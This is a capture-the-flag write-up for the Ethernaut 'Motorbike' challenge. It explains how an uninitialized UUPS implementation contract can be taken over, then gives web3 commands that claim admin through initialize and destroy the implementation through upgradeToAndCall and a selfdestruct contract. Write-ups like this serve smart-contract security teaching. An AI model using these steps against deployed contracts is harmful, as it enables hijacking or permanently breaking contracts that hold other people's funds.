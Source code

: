 # Ethernaut Challenge 25: Motorbike

The contracts given are a proxy contract and an implementation contract using the Universal Upgradeable Proxy Standard (UUPS). The UUPS is an upgradeable contract implementation wherein
the function that updates the implementation contract address is on the implementation contract.

The exploit in this case is that the initialization caller from the proxy contract that triggers the initialization function in the implementation contract is called with a delegate call. The initialization function makes the msg.sender the admin of the implementation contract. As a safe guard from anyone calling the initialization function to change the admin, the implementation contract has an "initialized" boolean variable that prevents the function from being called again. However, since delegate call is used in the constructor of the proxy contract, the storage context of that contract is used instead of implementation's. So then the "initialized" boolean on the implementation contract isn't set yet and can be called again and set our address as the admin.

With us as the admin, a function named upgradeToAndCall can be called to replace the contract's address to our own contract's address. The contract would have the self destruct function to break the implementation contract.

## Step 1:

Get the address of the implementation contract from the proxy contract at the implementation address storage slot as defined by EIP-1967.
`await web3.eth.getStorageAt(contract.address,'0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')`

## Step 2:

Call the initialization function (8129fc1c) of the implementation contract. This would set the admin of the contract to our address.
`await web3.eth.sendTransaction({from:'0xE93D3574F293919b290072554699C33f8D717150',to:'0xbe5c5676eb136f0b842bc7c66a48ff8c82843f75',data:'0x8129fc1c'})`

## Step 3:

Deploy self destruct contract. This contract only has a function that calls selfdestruct. This will replace the current implementation contract and will be called immediately using the upgradeToAndCall function.

`contract Destruct{ function selfDestruct() external {selfdestruct(payable(msg.sender));}}`

## Step 4:

Call the upgradeToAndCall function (4f1ef286) of the implementation contract. This function takes the address of the replacement contract (0x447A30daa5c437cE00aCA4460424293670AF003C) and bytes to execute after replacing contract address in the implementation slot. In this case, we're passing the function signature of the selfDestruct function made earlier.
`await web3.eth.sendTransaction({from:'0xE93D3574F293919b290072554699C33f8D717150',to:'0xbe5c5676eb136f0b842bc7c66a48ff8c82843f75',data:'0x4f1ef286000000000000000000000000447A30daa5c437cE00aCA4460424293670AF003C000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000049cb8a26a00000000000000000000000000000000000000000000000000000000'})`
